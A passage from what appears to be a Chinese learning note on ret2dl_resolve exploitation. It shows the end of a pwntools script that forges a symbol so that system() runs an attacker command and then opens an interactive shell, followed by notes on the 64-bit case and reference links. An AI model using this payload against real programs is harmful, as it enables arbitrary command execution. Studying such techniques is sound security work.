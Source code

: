 ```python
buf2 += fake_sym
buf2 += "system\x00"
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.sendline(buf2)

io.interactive()
```

&emsp;&emsp;<font size=2>64位的大致相同，但是64位因为内存地址的关系，伪造的偏移无法落在一个合法的地址上，也就说version肯定会失败，大佬们有提到用已解析的函数，伪造`l->l_addr`和`sym->st_value`通过glibc中的函数加上任意偏移计算到需要的函数，但是这种方法需要知道GLIBC，如果有glibc的话肯定就有更好的办法了，没必要通过这种方式，所以64位的就这样吧。</font></br>

参考文章：

- https://bestwing.me/Return-to-dl-resolve.html
- [https://veritas501.space/2017/10/07/ret2dl_resolve%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/](https://veritas501.space/2017/10/07/ret2dl_resolve学习笔记/)

